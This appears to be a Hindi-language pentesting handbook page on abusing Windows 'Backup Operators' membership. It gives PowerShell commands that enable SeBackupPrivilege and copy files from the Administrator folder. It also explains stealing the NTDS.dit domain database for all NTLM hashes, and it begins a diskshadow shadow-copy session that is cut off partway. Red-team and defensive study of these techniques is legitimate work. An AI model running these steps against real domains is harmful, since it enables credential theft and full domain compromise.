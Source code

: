 ## Backup Operators <a href="#backup-operators" id="backup-operators"></a>

`Server Operators` सदस्यता की तरह, हम `Backup Operators` में शामिल होने पर **`DC01` फ़ाइल सिस्टम तक पहुंच** कर सकते हैं।

इसलिए इस समूह अपने सदस्यों को [**`SeBackup`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#sebackupprivilege-3.1.4) और [**`SeRestore`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#serestoreprivilege-3.1.5) विशेषाधिकार प्रदान करता है। **SeBackupPrivilege** हमें किसी भी फ़ोल्डर को ट्रावर्स करने और फ़ोल्डर की सामग्री की सूची बनाने की अनुमति देता है। इससे हमें किसी फ़ोल्डर से एक फ़ाइल की प्रतिलिपि बनाने की अनुमति मिलेगी, यदि कुछ और आपको अनुमति नहीं दे रहा है। हालांकि, एक फ़ाइल की प्रतिलिपि बनाने के लिए इस अनुमति का दुरुपयोग करने के लिए झंडा [**FILE_FLAG_BACKUP_SEMANTICS**](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) का उपयोग किया जाना चाहिए। इसलिए, विशेष उपकरणों की आवश्यकता होती है।

इस उद्देश्य के लिए आप [**ये स्क्रिप्ट**](https://github.com/giuliano108/SeBackupPrivilege) का उपयोग कर सकते हैं।

समूह के **सदस्य** प्राप्त करें:
```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```
### **स्थानीय हमला**
```bash
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup SeBackupPrivilege is disabled

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege

# List Admin folder for example and steal a file
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\\report.pdf c:\temp\x.pdf -Overwrite
```
### AD हमला

उदाहरण के लिए, आप सीधे डोमेन कंट्रोलर फ़ाइल सिस्टम तक पहुंच सकते हैं:

![](../../.gitbook/assets/a7.png)

आप इस पहुंच का दुरुपयोग करके एक्टिव डायरेक्टरी डेटाबेस **`NTDS.dit`** को चोरी कर सकते हैं और डोमेन में सभी उपयोगकर्ता और कंप्यूटर ऑब्जेक्ट्स के लिए सभी **NTLM हैश** प्राप्त कर सकते हैं।

#### NTDS.dit को डंप करने के लिए diskshadow.exe का उपयोग

[**diskshadow**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) का उपयोग करके आप **`C` ड्राइव** और उदाहरण के लिए `F` ड्राइव में **शैडो कॉपी बना सकते हैं**। फिर, आप इस शैडो कॉपी से `NTDS.dit` फ़ाइल चुरा सकते हैं क्योंकि यह सिस्टम द्वारा उपयोग में नहीं होगी:
```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 10:34:16 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
```